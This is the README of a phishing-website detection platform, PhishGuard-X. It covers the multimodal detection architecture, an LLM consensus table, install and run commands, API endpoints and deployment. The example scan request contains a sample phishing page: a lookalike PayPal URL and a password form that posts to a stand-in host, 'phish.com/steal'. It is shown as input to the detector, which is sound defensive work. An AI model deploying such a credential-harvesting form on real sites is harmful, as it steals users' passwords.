

# 🛡️ PhishGuard-X: Multimodal AI-Powered Phishing Website Detection System

[](https://www.python.org/downloads/)
[](https://fastapi.tiangolo.com/)
[](https://pytorch.org/)
[](https://www.docker.com/)
[](LICENSE)

**PhishGuard-X** is an enterprise-grade, state-of-the-art **Multimodal AI Phishing Detection & Threat Intelligence Platform**. By unifying structural graph neural networks, vision transformers, sequence language models, a 10-LLM Bayesian consensus orchestrator, and deep explainability (XAI), PhishGuard-X provides real-time detection of zero-day phishing websites, brand impersonation attacks, and malicious DOM structures.

---

## 🌟 Initial Introduction & Key Features

Modern phishing attacks bypass conventional blocklists and static lexical filters by using dynamic DOM obfuscation, localized brand impersonation, and fast-flux domain networks. **PhishGuard-X** addresses these challenges with a **9-Modality Neural Fusion Architecture**:

### 🧠 9-Modality Multimodal Fusion Engine
1. **Graph Neural Network (GNN / GAT)**: Parses web pages into DOM topology trees and hyperlink networks, running a 2-layer Graph Attention Network (PyTorch GAT) to capture topological anomaly embeddings.
2. **10-LLM Bayesian Consensus Engine**: Concurrently queries and orchestrates 10 state-of-the-art Large Language Models using weighted Bayesian voting and temperature calibration.
3. **Vision Transformer (ViT)**: Performs optical analysis on web page screenshots and brand logos to detect visual similarity and brand spoofing (e.g., PayPal, Microsoft, Google, Bank logos).
4. **BERT / RoBERTa Sequence Transformer**: Encodes contextual semantics of page titles, meta tags, and URL strings to detect deceptive intent.
5. **Classical Tree Ensembles**: Integrates XGBoost, Random Forest, CatBoost, and LightGBM models trained on engineered lexical and network features.
6. **Unsupervised Anomaly Detector**: Deep Autoencoders and Isolation Forests to detect zero-day evasion patterns not present in training sets.
7. **WHOIS & DNS Infrastructure Collector**: Evaluates domain registration age, registrar reputation, name servers, and fast-flux IP patterns.
8. **SSL / TLS Certificate Inspector**: Analyzes certificate authority (CA) validity, SSL lifespan, hostname mismatches, and cipher suite strength.
9. **Threat Intelligence Aggregator**: Connects to active feeds (VirusTotal, AbuseIPDB, Google Safe Browsing, PhishTank) for real-time reputation scoring.

---

## 🖼️ Visual Phishing Detection & Target Recognition Engine (MDPI 2026 Integration)

Based on the paper *"Phishing Website Impersonation: Comparative Analysis of Detection and Target Recognition Methods"* (Jarczewski, Białczak, & Mazurczyk, *MDPI Applied Sciences*, 2026), PhishGuard-X incorporates three visual recognition paradigms and their optimal hybrid pipeline:

1. **Perceptual Hashing Baseline (`pHash` / `pHashF` + FAISS)**: Uses Discrete Cosine Transform (DCT) frequency extraction and FAISS similarity vector indexing to provide rapid, stable binary classification (**F1 = 0.95**, **ROC AUC = 0.82**), eliminating deep feature collapse.
2. **Phishpedia**: A 2-stage object detection system using Faster R-CNN for logo candidate proposal followed by a Siamese network for target brand recognition (**Identification Rate > 0.9** across CERT Polska, PP, and VP datasets).
3. **VisualPhishNet**: A VGG-16 Triplet Loss CNN for holistic webpage layout embeddings with Equal Error Rate (EER) threshold optimization.
4. **MDPI 2026 Hybrid Architecture**: Combines Stage 1 Perceptual Hashing for instant binary threat filtering with Stage 2 Phishpedia for precise brand target attribution.

---

## 🤖 10-LLM Multi-Engine Consensus Orchestrator

PhishGuard-X incorporates a concurrent, fault-tolerant multi-engine LLM pipeline that queries 10 top-tier AI models for consensus classification:

| Engine ID | Model Name | Developer | Primary Specialty | Bayesian Weight |
| :--- | :--- | :--- | :--- | :--- |
| `gpt-5.5` | **GPT-5.5** | OpenAI | Deep reasoning, zero-day threat analysis | `1.2` |
| `claude-4-opus` | **Claude 4 Opus** | Anthropic | Long-context security audit & risk reasoning | `1.2` |
| `gemini-2.5-pro` | **Gemini 2.5 Pro** | Google | Native multimodal visual & text understanding | `1.15` |
| `llama-3.3-70b` | **Llama 3.3 70B** | Meta | Open-weights classification & structural reasoning | `1.1` |
| `qwen-3-72b` | **Qwen 3 72B** | Alibaba | Multilingual phishing & international domain analysis | `1.05` |
| `deepseek-v3` | **DeepSeek-V3** | DeepSeek | Fast cybersecurity threat parsing & logic check | `1.05` |
| `mistral-large` | **Mistral Large** | Mistral AI | Structured JSON output & concise risk reporting | `1.0` |
| `command-a` | **Command A** | Cohere | RAG & domain retrieval verification | `0.95` |
| `falcon-180b` | **Falcon 180B** | TII | High-capacity open NLP sequence analysis | `0.9` |
| `phi-4` | **Phi-4** | Microsoft | High-speed, low-latency micro-reasoning | `0.85` |

---

## 📊 System Architecture & Data Flow



---

## 📁 Repository Structure

```
PRO/
├── api.py                    # Central FastAPI Gateway & Microservice Routing
├── run.py                    # Main Launcher, Port Auto-detection & Health Checker
├── run_tests.py              # Automated End-to-End Test Runner
├── requirements.txt          # Production Dependencies
├── Dockerfile                # Multi-stage Containerization Setup
├── docker-compose.yml        # Orchestration (API, Postgres, Mongo, Redis, Prometheus)
├── prometheus.yml            # Metrics Monitoring Configuration
├── classical_ensemble.py     # Random Forest, CatBoost & Autoencoder Implementations
├── collectors.py             # WHOIS, DNS, SSL, JS AST & Threat Intel Aggregators
├── database.py               # SQLAlchemy Database Models (ScanResult, AuditLog, User)
├── dataset_loader.py         # Kaggle Multimodal Dataset Loader & Feature Extractor
├── gnn_model.py              # PyTorch Graph Attention Network (GAT) for DOM Topology
├── llm_ensemble.py           # 10-LLM Bayesian Consensus Engine
├── multimodal_fusion.py      # 9-Modality Fusion Neural Network & XAI Engine
├── nlp_transformer.py        # HuggingFace BERT NLP Semantic Encoder
├── vision_model.py           # PyTorch Vision Transformer (ViT) Screenshot Inspector
├── mlops_service.py          # Model Registry, Versioning & Drift Detection
├── security.py               # Authentication, JWT Tokens & Password Hashing
├── services/                 # Modular Microservices for each Component
│   ├── gnn_service.py
│   ├── vit_service.py
│   ├── bert_service.py
│   ├── ensemble_service.py
│   ├── llm_service.py
│   ├── fusion_service.py
│   └── ...
├── dashboard/                # Real-Time Web Interface & Static Assets
│   └── index.html
├── k8s/                      # Kubernetes Deployment & Service Manifests
│   └── deployment.yaml
├── data/                     # Dataset Storage Directory
│   └── merged_phishing_multimodal_dataset.csv
└── tests/                    # Unit & Integration Test Suites
    ├── test_api.py
    └── test_models.py
```

---

## 🚀 Quick Start Guide

### Prerequisites
- **Python**: 3.10, 3.11, or 3.12
- **Pip**: Latest version
- **Docker & Docker Compose** *(Optional, for containerized run)*

### 1. Installation

Clone the repository and install the dependencies:

```bash
git clone https://github.com/your-org/PhishGuard-X.git
cd PhishGuard-X

# Create a virtual environment
python -m venv venv

# Activate virtual environment
# Windows:
venv\Scripts\activate
# Linux/macOS:
source venv/bin/activate

# Install requirements
pip install -r requirements.txt
```

### 2. Running Locally

Launch the server using the integrated runner:

```bash
python run.py
```

The system will verify dataset health, evaluate neural models, and start the FastAPI service.

- 🖥️ **Interactive Web Dashboard**: [http://127.0.0.1:8000](http://127.0.0.1:8000)
- 📚 **Swagger API Docs**: [http://127.0.0.1:8000/docs](http://127.0.0.1:8000/docs)
- 🔍 **ReDoc Specifications**: [http://127.0.0.1:8000/redoc](http://127.0.0.1:8000/redoc)

---

## 🌐 API Endpoint Reference

### Dedicated Model Microservices

| Method | Endpoint | Description |
| :--- | :--- | :--- |
| `POST` | `/api/v1/scan` | Full 32-step sequential scanning pipeline |
| `POST` | `/api/v1/batch-scan` | Batch scanning of multiple URLs concurrently |
| `POST` | `/models/fusion/predict` | Multimodal Fusion 9-Modality evaluation |
| `POST` | `/models/gnn/predict` | PyTorch GAT DOM topology score |
| `POST` | `/models/vit/predict` | Vision Transformer visual similarity analysis |
| `POST` | `/models/bert/predict` | BERT Transformer NLP semantic score |
| `POST` | `/models/ensemble/predict` | Classical ML ensemble & Autoencoder anomaly score |
| `POST` | `/models/llm/predict` | 10-LLM Bayesian Consensus prediction |
| `POST` | `/models/llm/compare` | Compare predictions across selected LLM engines |
| `POST` | `/models/xai/predict` | Detailed Explainable AI (XAI) feature report |

### Example Scan Request

```json
POST /api/v1/scan
Content-Type: application/json

{
  "url": "http://secure-login.paypal-verification-update.com",
  "html_content": "<html><body><form action='http://phish.com/steal' method='POST'><input type='password'></form></body></html>"
}
```

---

## 🐳 Containerized & Cloud Deployment

### Docker Compose

To start the full stack (FastAPI, PostgreSQL, MongoDB, Redis, Prometheus):

```bash
docker-compose up --build -d
```

### Kubernetes (K8s)

Deploy to a Kubernetes cluster using the provided manifests:

```bash
kubectl apply -f k8s/deployment.yaml
```

---

## 🧪 Testing & Quality Assurance

Run the automated test suite to ensure code health and model integrity:

```bash
python run_tests.py
```

Or via pytest:

```bash
pytest tests/
```

---

## 🛡️ Security & MLOps

- **Authentication**: JWT Bearer token authentication (`security.py`).
- **Audit Logging**: SQLite / PostgreSQL transaction logging (`database.py`).
- **MLOps Drift Detection**: Automated statistical model monitoring (`mlops_service.py`).
- **Prometheus Monitoring**: Exposes metrics for system throughput, latency, and prediction distribution (`prometheus.yml`).

---

## 📜 License

Distributed under the **MIT License**. See `LICENSE` for more information.
